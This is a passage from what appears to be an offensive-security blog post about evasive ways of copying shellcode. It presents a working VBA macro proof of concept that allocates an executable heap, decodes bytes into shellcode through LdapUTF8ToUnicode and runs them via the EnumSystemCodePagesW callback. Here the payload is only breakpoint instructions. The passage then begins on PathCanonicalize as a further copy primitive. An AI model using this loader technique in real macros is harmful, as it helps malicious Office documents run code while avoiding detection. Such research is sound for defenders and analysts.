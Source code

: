 As we saw, it worked. It is time to translate the C code to the impious language of ~~Mordor~~ VBA:

```vb
Private Declare PtrSafe Function HeapCreate Lib "KERNEL32" (ByVal flOptions As Long, ByVal dwInitialSize As LongPtr, ByVal dwMaximumSize As LongPtr) As LongPtr
Private Declare PtrSafe Function HeapAlloc Lib "KERNEL32" (ByVal hHeap As LongPtr, ByVal dwFlags As Long, ByVal dwBytes As LongPtr) As LongPtr
Private Declare PtrSafe Function EnumSystemCodePagesW Lib "KERNEL32" (ByVal lpCodePageEnumProc As LongPtr, ByVal dwFlags As Long) As Long
Private Declare PtrSafe Function LdapUTF8ToUnicode Lib "WLDAP32" (ByVal lpSrcStr As LongPtr, ByVal cchSrc As Long, ByVal lpDestStr As LongPtr, ByVal cchDest As Long) As Long


Sub poc()
    Dim orig_shellcode(0 To 5) As Byte
    Dim copied_shellcode As LongPtr
    Dim heap As LongPtr
    Dim size As Long
    Dim ret As Long
    Dim HEAP_CREATE_ENABLE_EXECUTE As Long
    
    HEAP_CREATE_ENABLE_EXECUTE = &H40000
    
    '\xec\xb3\x8c\xec\xb3\x8c ==> \xcc\xcc\xcc\xcc
    orig_shellcode(0) = &HEC
    orig_shellcode(1) = &HB3
    orig_shellcode(2) = &H8C
    orig_shellcode(3) = &HEC
    orig_shellcode(4) = &HB3
    orig_shellcode(5) = &H8C
    
    heap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0)
    copied_shellcode = HeapAlloc(heap, 0, &H10)
    size = LdapUTF8ToUnicode(VarPtr(orig_shellcode(0)), 6, 0, 0)
    ret = LdapUTF8ToUnicode(VarPtr(orig_shellcode(0)), 6, copied_shellcode, size)
    ret = EnumSystemCodePagesW(copied_shellcode, 0)
End Sub
``` 

Attach a debugger and run the macro!

<figure>
<img src="/alternatives-copy-shellcode/vba-ldap-executed.png" alt="Macro executing our shellcode">
<figcaption>
Macro executing our shellcode.
</figcaption>
</figure>

Another example can be `PathCanonicalize`:

```c
BOOL PathCanonicalizeA(
  LPSTR  pszBuf,
  LPCSTR pszPath
);
```
